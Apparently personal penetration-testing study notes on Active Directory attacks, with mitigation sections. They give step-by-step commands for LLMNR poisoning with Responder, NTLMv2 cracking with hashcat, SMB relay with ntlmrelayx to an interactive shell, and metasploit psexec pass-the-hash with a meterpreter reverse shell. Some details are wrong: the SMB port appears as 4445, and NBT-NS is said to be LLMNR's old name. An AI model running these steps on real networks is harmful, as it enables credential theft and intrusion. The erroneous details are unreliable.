 
# Attack 1 : LLMNR poisoning

LLMNR (**Link Local Multicast Name Resolution**) is used to identify hosts when DNS fails to do so.

**It is enabled by default!**

Previously it was called NBT-NS

The services utilize a username and a NTLMv2 hash when they responds
- so we can capture traffic as MIMT

The idea is that the server asks for username and hash to connect a client to another one:

![[Pasted image 20241217153223.png]]

==**The problem arises because the request of connection is sent in broadcast.**==

## Step 1: run responder

```bash 
sudo responder -I interface (eth0) -dwP
```
- `d` is for DHCP requests
- `w` is for WPAD proxy that allows browsers to automatically discover a proxy 
- `P` forces the NTLM authentication for the proxy
- `v` is verbose
This command responds to the traffic we receive.

Since the request for accessing a client is in broadcast it will respond to the victim:
- do it in the morning or after lunch (the idea is that it will work when a pc does requests)


## Step 2: trigger an event
Example we request on network at 
```bash
\\10.8.0.2
```


![[Pasted image 20241217153913.png]]


## Step 3: intercept hash with responder
As soon as the traffic is generated then we will see on our responder:
- ![[Pasted image 20241217154012.png]]


With hashcat we can crack the hash to discover the password.

## Step 4: crack hash
With hashcat we can crack the password:
```bash
hashcat hash.txt
```
- to get the code to crack it 

Then:
```bash
hashcat -m 5600 hash.txt rockyou.txt --show
rockyou.txt```
- or sometimes 5500


## Mitigation
the best defense is tp disable LLMNR and NBT-NS:
- To diable it we have to go on the server and policies
- ![[Pasted image 20241217160554.png]]

If we cannot disable it:
- ![[Pasted image 20241217160618.png]]





# Attack 2: SMB Relay

Instead crack hashes what we can do is to relay those to specific machines and gain access.
- *For example the hash cannot be cracked*

**==To perform it:**
- **==SMB signing must be disabled or not enforced==**
- **==The credential we stole must be an admin on the machine we want to access==** 




## Step 1: identify if the target has the SMB signing or not

We can do it using nmap:
```bash
nmap --script=smb2-security-mode.nse -p4445 (IP) -Pn
```
-  generally we start with the Domain controller IP but we can do `192.168.1.0/24`
- `-Pn` is done to avoid the ping (namp sees if the target is alive with the ping some machines disable ping, so the scan is stopped without -Pn)


At this point we create a `target.txt` file.

## Step 2: run responder 

First of all we need to modify responder configuration file:
```bash
sudo mousepad /etc/responder/Responder.conf
```
- ![[Pasted image 20241217161418.png]]



Now we can run responder:
```bash
sudo responder -I eth0 -dwP
```


## Step 3: setup relay
To setup our relay we can use a script called ntlmrelayx.py:
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
- ![[Pasted image 20241217161801.png]]



## Step 4: Trigger an event
Example we request on network at 
```bash
\\10.8.0.2
```


![[Pasted image 20241217153913.png]]



## Step 5: analyse traffic
At this point we can analyse traffic to see if something is captured on the relay:
- ![[Pasted image 20241217162034.png]]



To gain a shell we can change the command to:
```shell
sudo ntlmrelayx.py -tf targets.txt -smb2support -i 
```

And then run on the attack machine:
```bash
nc 127.0.0.1 11000
```


## Mitigation
To mitigate SMB relay we can:
- Enable SMB signing on all devices
- Disable NTML authentication on the nework (but if kerberos stops then it turn back to NTLM )
- Tier the account (limit domain admins to specific tasks)
- Restrict local admin

## Gain shell access with credentials cracked
We can gain a shell acces using metasploit with `exploit/windows/smb/psexec`. We just need to set the information:
- ![[Pasted image 20241217163749.png]]


First of all we need to set the payload:
```shell
set payload windows/x64/meterpreter/reverse_tcp
```

Then:
```bash
set rhosts IP
set smbdomain domain
set smbuser username
set smbpass Password
```
## Gain shell access with hash NOT CRACKED
The idea is the same but we set as password the hash:
- ![[Pasted image 20241217163921.png]]



We can also use `psexec.py`:
- ![[Pasted image 20241217164021.png]]
- ![[Pasted image 20241217164240.png]]

